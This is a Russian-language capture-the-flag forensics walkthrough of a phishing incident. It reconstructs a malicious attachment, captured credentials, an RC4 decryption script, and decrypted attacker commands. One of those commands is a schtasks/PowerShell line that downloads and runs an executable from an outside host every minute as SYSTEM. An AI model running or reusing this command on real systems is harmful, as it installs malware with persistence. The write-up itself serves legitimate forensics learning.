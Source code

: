 # Silent Trap

![img_17.png](task%2Fimg_17.png)\
В этой таске нужно было найти 6 разных флагов, но я благополучно забыл заскриншотить задания...

Открываем файлик, гуляем по стримам\
В первом же стриме находим имейлы\
![img.png](img.png)\
1 флаг - subject у первого открытого жертвой имейла - subject у 71 письма "Game Crash on Level 5"\
2 флаг - дататайм когда был отправлен имейл злоумышленника\
В 8 стриме видим как жертва открывает новый имейл, в 12 скачивает подозрительный файл "Eldoria_Balance_Issue_Report.pdf.exe"\
Это имейл 72, смотрим его дату, получаем флаг - 2025-02-24_15:46\
3 флаг - md5 хэш подозрительного файла\
Сохраняем файл, пароль к архиву находим в том же письме, получаем хэш вредоносного файла - c0b37994963cc0aadd6e78a256c51547 *Eldoria_Balance_Issue_Report.pdf.exe\
4 флаг - под какой учеткой залогинились злоумышленники\
В 16 стриме находим креды\
![img_1.png](img_1.png)\
флаг proplayer@email.com:completed\
5 флаг - какую таску запустил злоумышленник\
В 35 стриме находим зашифрованную команду\
![img_2.png](img_2.png)\
Для этого нам нужно ревнуть вредоносное по и получить вот такой код для расшифровки:
```python
import base64


def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])
    return bytes(out)


key = bytes([
    168, 115, 174, 213, 168, 222, 72, 36, 91, 209, 242, 128, 69, 99, 195, 164,
    238, 182, 67, 92, 7, 121, 164, 86, 121, 10, 93, 4, 140, 111, 248, 44,
    30, 94, 48, 54, 45, 100, 184, 54, 28, 82, 201, 188, 203, 150, 123, 163,
    229, 138, 177, 51, 164, 232, 86, 154, 179, 143, 144, 22, 134, 12, 40, 243,
    55, 2, 73, 103, 99, 243, 236, 119, 9, 120, 247, 25, 132, 137, 67, 66,
    111, 240, 108, 86, 85, 63, 44, 49, 241, 6, 3, 170, 131, 150, 53, 49,
    126, 72, 60, 36, 144, 248, 55, 10, 241, 208, 163, 217, 49, 154, 206, 227,
    25, 99, 18, 144, 134, 169, 237, 100, 117, 22, 11, 150, 157, 230, 173, 38,
    72, 99, 129, 30, 220, 112, 226, 56, 16, 114, 133, 22, 96, 1, 90, 72,
    162, 38, 143, 186, 35, 142, 128, 234, 196, 239, 134, 178, 205, 229, 121, 225,
    246, 232, 205, 236, 254, 152, 145, 98, 126, 29, 217, 74, 177, 142, 19, 190,
    182, 151, 233, 157, 76, 74, 104, 155, 79, 115, 5, 18, 204, 65, 254, 204,
    118, 71, 92, 33, 58, 112, 206, 151, 103, 179, 24, 164, 219, 98, 81, 6,
    241, 100, 228, 190, 96, 140, 128, 1, 161, 246, 236, 25, 62, 100, 87, 145,
    185, 45, 61, 143, 52, 8, 227, 32, 233, 37, 183, 101, 89, 24, 125, 203,
    227, 9, 146, 156, 208, 206, 194, 134, 194, 23, 233, 100, 38, 158, 58, 159
])
```
Расшифровываем команду и получаем 
```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

C:\Users\dev-support\Desktop>
```
Флаг - Synchronization
6 флаг - какой апи ключ был украден\
в 97 стриме находим зашифрованную команду, расшифровываем и получаем:
```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0

[Game API]
host=api.korptech.net
api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
host=dev-build.korptech.net
username=devops
password=BuildServer@92|7Gy1lz'Xb
port=2022

C:\Users\dev-support\Desktop>
```
Флаг - sk-3498fwe09r8fw3f98fw9832fw